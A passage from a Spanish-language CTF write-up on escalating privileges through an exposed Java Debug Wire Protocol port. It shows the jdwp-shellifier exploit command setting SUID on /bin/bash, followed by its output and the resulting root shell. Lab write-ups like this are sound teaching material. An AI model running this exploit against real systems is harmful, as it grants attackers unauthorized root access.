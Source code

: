 > **Java Debug Protocol (JDWP)**: Define el protocolo de comunicación entre los procesos _front-end_ y el _back-end_ del _debugger_ a través de varios canales de comunicación que incluyen _socket_ y memoria compartida. 


Vi que había un exploit https://github.com/IOActive/jdwp-shellifier probe a ejecutarlo como ponía en hacktricks.
https://book.hacktricks.xyz/network-services-pentesting/pentesting-jdwp-java-debug-wire-protocol

y dió resultado, puede darle permisos SUID a la bash.

```bash
alexa@AI:/tmp$ python2 exploit.py -t localhost -p 8000 --break-on 'java.lang.String.indexOf' --cmd "chmod +s /bin/bash"
[+] Targeting 'localhost:8000'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
[+] Found Runtime class: id=b8c
[+] Found Runtime.getRuntime(): id=7f800003e870
[+] Created break event id=2
[+] Waiting for an event on 'java.lang.String.indexOf'
[+] Received matching event from thread 0xc31
[+] Selected payload 'chmod +s /bin/bash'
[+] Command string object created id:c32
[+] Runtime.getRuntime() returned context id:0xc33
[+] found Runtime.exec(): id=7f800003e8a8
[+] Runtime.exec() successful, retId=c34
[!] Command successfully executed
alexa@AI:/tmp$ bash -p
bash-4.4#
```

Espero que te haya servido!!!